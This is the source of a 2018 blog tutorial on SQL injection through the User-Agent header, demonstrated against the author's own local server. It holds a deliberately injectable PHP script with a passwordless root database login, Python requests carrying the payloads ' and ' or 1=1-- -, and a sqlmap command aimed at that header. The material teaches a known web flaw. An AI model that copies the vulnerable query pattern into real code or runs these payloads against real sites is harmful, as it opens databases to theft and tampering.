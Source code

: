 ```yaml
---
layout: post
title:  "SQL Injection Through HTTP Header"
date:   2018-04-02 08:48:58 +1000
categories: hacking
---
```

Hello, world! In this article I am going to show you, how to exploit [SQL injection](https://en.wikipedia.org/wiki/SQL_injection) through HTTP request header


> ###### What is SQL injection?
SQL Injection (SQLi) refers to an injection attack wherein an attacker can execute malicious SQL statements (also commonly referred to as a malicious payload) that control a web application's database server (also commonly referred to as a Relational Database Management System – RDBMS).

To demonstrate this attack, I already wrote a vulnerable `PHP` script. Which allows me to do [SQL injection](https://en.wikipedia.org/wiki/SQL_injection) through `User-Agent`. It doesn't have to be the `User-Agent`, it could be any header in the request.

{% highlight php %}
<?php 
	
	$data = array(
		"user-agent" => $_SERVER['HTTP_USER_AGENT'],
		"ip" => $_SERVER['REMOTE_ADDR']
	);

	$link = mysqli_connect("localhost", "root", "", "suyambu");
	if (!$link) {
		echo "Error: Unable to connect to MySQL." . PHP_EOL;
		echo "Debugging errno: " . mysqli_connect_errno() . PHP_EOL;
		echo "Debugging error: " . mysqli_connect_error() . PHP_EOL;
		exit;
	}
	$get_result = mysqli_query($link, "SELECT * FROM user_agent WHERE ip='" . $data["ip"] . "' AND agent='" . $data["user-agent"] . "'");
	if (mysqli_num_rows($get_result) == 0) {
		mysqli_query($link, "INSERT INTO user_agent (ip, agent, is_active) VALUES ('" . $data["ip"] . "', '" . $data["user-agent"] . "', 1)");
	}

	mysqli_close($link);
	echo json_encode($data);

?>
{% endhighlight %}

The script is simply getting the user `IP` and `User-Agent` then storing it in the [database](https://en.wikipedia.org/wiki/Database). If you noticed there are two mistakes (**vulnerable**) in the script

**1. Unfiltered value in fetch data from database**

{% highlight php %}
$get_result = mysqli_query($link, "SELECT * FROM user_agent WHERE ip='" . $data["ip"] . "' AND agent='" . $data["user-agent"] . "'");
{% endhighlight %}

**2. Unfiltered value in storing data to database**

{% highlight php %}
mysqli_query($link, "INSERT INTO user_agent (ip, agent, is_active) VALUES ('" . $data["ip"] . "', '" . $data["user-agent"] . "', 1)");
{% endhighlight %}

## Checking Vulnerability Using Python

I am going to launch a local [Apache](https://en.wikipedia.org/wiki/Apache) server to test the vulnerability and also I am using Python to send the `HTTP` request.

> There is a [Firefox](https://www.mozilla.org/en-US/firefox/new/) browser extension call [Tamper Data](https://addons.mozilla.org/en-US/firefox/addon/tamper-data/), you can also use this extention to tamper `HTTP` request headers.

{% highlight python %}
import requests


def main():
	res = requests.get("http://192.168.43.229/user-agent/", headers={
		"User-Agent": "'"
	})

	print(res.text)


if __name__ == "__main__":
	main()
{% endhighlight %}

> I forgot to tell you, I am testing this vulnerability with `Error Base SQL Injection` in mind, if the application has `Blind SQL Injection` or any other type then you can skip this step.

If you run the script, you will see a SQL error on your response.

{% highlight html %}
<br />
<b>Warning</b>:  mysqli_num_rows() expects parameter 1 to be mysqli_result, boolean given in <b>/opt/lampp/htdocs/user-agent/index.php</b> on line <b>16</b><br />
{"user-agent":"'","ip":"192.168.43.229"}
{% endhighlight %}

Now to confirm it's vulnerable, I am going to send the following payload in `User-Agent`

{% highlight python %}
import requests


def main():
	res = requests.get("http://192.168.43.229/user-agent/", headers={
		"User-Agent": "' or 1=1-- -"
	})

	print(res.text)


if __name__ == "__main__":
	main()
{% endhighlight %}

If you don't get any error then the application is vulnerable to [SQL injection](https://en.wikipedia.org/wiki/SQL_injection). Now you can exploit the server with any automated [SQL injection](https://en.wikipedia.org/wiki/SQL_injection) tools or you can exploit it by sending self constructed queries.

# Exploit Using SQLMap

To exploit the application through `User-Agent` with [SQLMap](https://en.wikipedia.org/wiki/Sqlmap) you can use the following command.

{% highlight bash %}
$ sqlmap -u http://192.168.43.229/user-agent -p "User-Agent"
{% endhighlight %}

<img src="https://preview.ibb.co/cLABhH/Screenshot_from_2018_04_03_09_15_02.png" alt="Screenshot_from_2018_04_03_09_15_02" border="0">

# Demonstration

<iframe width="560" height="315" src="https://www.youtube.com/embed/ptvRPEBlIqM" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>